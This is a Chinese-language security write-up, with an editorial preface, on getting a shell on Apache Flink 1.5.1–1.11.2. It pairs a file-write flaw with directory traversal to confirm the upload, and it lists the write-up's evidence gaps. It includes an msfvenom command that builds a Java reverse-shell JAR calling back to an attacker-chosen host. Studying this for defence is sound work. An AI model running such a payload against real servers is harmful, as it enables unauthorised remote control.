





# Apache Flink getShell

<!-- vulwiki-editorial:start -->
## 校订与适用边界

- 适用前提：可达写入及遍历读取接口、进程目录权限；JAR 执行还需作业提交步骤
- 证据范围：先写文件再读取验证的链条有意义，但关键请求均图片，不能根据文字确认具体 CVE 或完成执行过程。

### 尚未解决的证据缺口

以下限制仍适用于后文历史材料；相关版本、结果或修复结论不能据此视为已验证：

- 将上传成功直接跳到 shell，缺执行触发步骤
- 1.5.1–1.11.2 可能对应写入问题，不代表读取问题相同范围，应分别建实体
- 仅升级最新版缺明确修复分支
- 图片未视检，不能确认写入目标及读取接口

### 操作风险与资料使用

- 含反向连接或交互式命令执行方法：会产生出站连接和子进程；目标、监听端与网络须在授权隔离范围内，结束后关闭会话并核对遗留进程。

本页为文本校订，未执行代码、PoC 或目标请求；原图仅保留引用，未据此确认复现成功。
<!-- vulwiki-editorial:end -->

## 技术正文与历史材料

<meta name="referrer" content="no-referrer"/>

> 本文由 [简悦 SimpRead](http://ksria.com/simpread/) 转码， 原文地址 [mp.weixin.qq.com](https://mp.weixin.qq.com/s/58QhVM_Kp-ds-HD4YRESwg)


**前言:**  

Apache Flink 前面写了它存在目录遍历漏洞，今天和大家分享一下如何利用目录遍历来判断该站点是否存在文件上传漏洞。

**漏洞描述：**

我们通过指定路径写入一个文件，在根据它的目录遍历漏洞，来判断是否上传写入成功，成功读取即漏洞存在，可以进一步写入 shell，从而 getShell。

**漏洞复现：**

写入文件。



通过目录遍历漏洞读取写入的文件, 返回文件内容。漏洞存在。



编写 shell 利用 Metasploit 框架 msfvenom 来生成木马。

```
#进入
msfconsole
#生成shell
msfvenom -p java/shell_reverse_tcp lhost=ip  lport=port -f jar >/gem.jar
```



上传成功成功反弹 shell。  





**影响版本:**

Apache Flink 1.5.1 ~ 1.11.2

**修复建议:**

及时更新到最新版本。


一起学习，请关注我

免责声明：本站提供安全工具、程序 (方法) 可能带有攻击性，仅供安全研究与教学之用，风险自负!

转载声明：著作权归作者所有。商业转载请联系作者获得授权，非商业转载请注明出处。

---

> 来源：MrWQ/vulnerability-paper（https://github.com/MrWQ/vulnerability-paper）
